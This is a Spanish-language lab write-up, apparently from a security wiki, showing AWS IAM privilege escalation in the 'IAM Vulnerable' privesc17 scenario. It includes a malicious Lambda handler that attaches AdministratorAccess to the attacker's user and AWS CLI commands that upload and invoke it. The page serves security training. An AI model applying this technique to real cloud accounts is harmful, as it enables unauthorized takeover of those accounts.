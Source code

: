 ```yaml
---
description: 'Lab: IAM vulnerable'
---
```


# EditExistingLambdaFunctionWithRole

## Laboratorio

En este apartado se observará el ejemplo utilizando el laboratorio IAM vulnerable con el escenario privesc17.  Para la correcta elevación de privilegios, depende de la interacción de otro usuario o de que la función actualizada sea ejecutada.

{% embed url="https://bishopfox.com/blog/privilege-escalation-in-aws" %}
Lab: IAM - Vulnerable | Escenario: privesc17
{% endembed %}

Un atacante con el permiso <mark style="color:green;">**lambda:UpdateFunctionCode**</mark> podría actualizar el código en una función Lambda existente con un rol de IAM adjunto para que importara la biblioteca de AWS relevante en ese lenguaje de programación y la usara para realizar acciones en nombre de ese rol.

### Configuración Inicial

Usuario del laboratorio: privesc17- EditExistingLambdaFunctionWithRole-user con los permisos:

<figure><img src="../../../.gitbook/assets/image (15) (4).png" alt=""><figcaption></figcaption></figure>

La cuenta de AWS debe contener una función Lambda existente, con un rol adjunto que tenga el permiso <mark style="color:green;">iam:AttachUserPolicy.</mark>

Tambien es necesario tener en la infraestructura de pruebas un lambda ya configurado con cualquier funcionalidad con el rol a cual se va a asociar:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Posterior mente generar llaves e acceso desde cuenta administrador para interactuar con el usuario en AWS CLI y configurar un perfil para el usuario del laboratorio

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (12) (4).png" alt=""><figcaption></figcaption></figure>



### Explotación

En este escenario, se va a utilizar el privilegio del usuario <mark style="color:green;">**lambda:UpdateFunctionCode**</mark> para actualizar una función de lambda existente y añadirle código malicioso encargado de adjuntar una política de altos privilegios a nuestro usuario inicial.

La función lambda maliciosa es la siguiente.

{% code title="lambda_function.py" overflow="wrap" %}
```python
import boto3
def lambda_handler(event, context): 
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName='privesc17- EditExistingLambdaFunctionWithRole-user', 
	PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response
```
{% endcode %}

Para subir el archivo de la nueva función lambda se usará el permiso <mark style="color:green;">**lambda:UpdateFunctionCode**</mark> es necesario llamar el archivo <mark style="color:green;">**lambda\_function.py**</mark> y luego comprimir el archivo en formato zip con el nombre <mark style="color:green;">**function.zip.**</mark> Después ejecutar el código:

{% code overflow="wrap" %}
```
aws lambda update-function-code --function-name FuncionHelloWorld --zip-file fileb://function.zip --profile privesc17
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>

Cuando se ejecuta la función, se elevan los privilegios del atacante. Si el atacante tiene el permiso <mark style="color:green;">**lambda:InvokeFunction**</mark>, entonces es posible simplemente invocar la función directamente. De lo contrario, ocurrirá cuando otro usuario o servicio ejecute la función. En el siguiente ejemplo, otro usuario ejecuta la función.

El siguiente comando muestra a otro usuario de AWS invocando la lambda.

```
aws lambda invoke --function-name FuncionHelloWorld output.txt --profile other
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (6) (1).png" alt=""><figcaption></figcaption></figure>

Finalmente ejecutando iam list attached user policies, podemos observar como el usuario inicial a ganado permisos de administrador:

<figure><img src="../../../.gitbook/assets/image (13) (4).png" alt=""><figcaption></figcaption></figure>



